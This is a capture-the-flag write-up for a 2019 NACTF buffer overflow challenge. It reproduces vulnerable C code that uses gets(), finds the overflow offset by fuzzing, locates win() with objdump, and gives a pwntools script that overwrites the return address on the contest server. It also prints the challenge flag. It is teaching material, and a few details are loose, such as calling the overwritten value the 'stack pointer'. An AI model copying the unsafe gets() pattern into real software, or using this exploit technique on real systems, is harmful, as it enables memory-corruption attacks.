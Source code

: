 # BufferOverflow #1

## Challenge

"The close cousin of a website for 'Question marked as duplicate' - part 2!

Can you redirect code execution and get the flag?

Connect at shell.2019.nactf.com:31462"

You can download the problem files here [bufover-1.c](bufover-1.c) [bufover-1](bufover-1)

## Process

From the title I knew this would be a buffer overflow challenge. I opened up the .c file and looked for anything interesting.

```
#include <stdio.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}
```

I noticed the line

```
	gets(buf);
```

which is vulnerable to a buffer overflow attack. I also noticed

```
void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}
```

This tells us that we want to jump into the function win(). I locally ran the file in gdb and supplied more than enough characters to cause errors. I alphabetically inputted letters in groups of four to make it easier to determine how large of an offset I'll need in my payload. 

![Fuzzing the file](Capture.JPG)

0x48484848 overflowed into the stack pointer. 0x48 in hexadecimal is the letter "H" in ascii. Therefore 32 total characters are needed to cause a buffer overflow, and the last four of those 32 characters will overwrite the stack pointer. We want to overwrite the stack pointer such that the program jumps to the function win() and prints the flag.

To find the address of the function win(), I ran an object dump on the given elf file. You can look at the entire dump here [objectdump-d.txt](objectdump-d.txt).

```
$ objdump -d return-to-sender > objectdump-d.txt
```

Through the dump I found the address of the function win(), which is 0x080491b2

```
080491b2 <win>:
 80491b2:	55                   	push   %ebp
 80491b3:	89 e5                	mov    %esp,%ebp
 80491b5:	81 ec 18 01 00 00    	sub    $0x118,%esp
 80491bb:	83 ec 0c             	sub    $0xc,%esp
 80491be:	68 08 a0 04 08       	push   $0x804a008
```

I then wrote and ran [this](payloader.py) python script to perform the bufferoverflow attack.

```
from pwn import * 
connection = remote('shell.2019.nactf.com', 31462)
#through fuzzing we found buffer
offset = 28
#through objdump -d we found the address of win as 0x080491b2
address = p32(0x080491b2)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
connection.interactive()

#The flag is nactf{pwn_31p_0n_r3t_iNylg281}
```

![Capture2](Capture2.JPG)

The flag is nactf{pwn_31p_0n_r3t_iNylg281}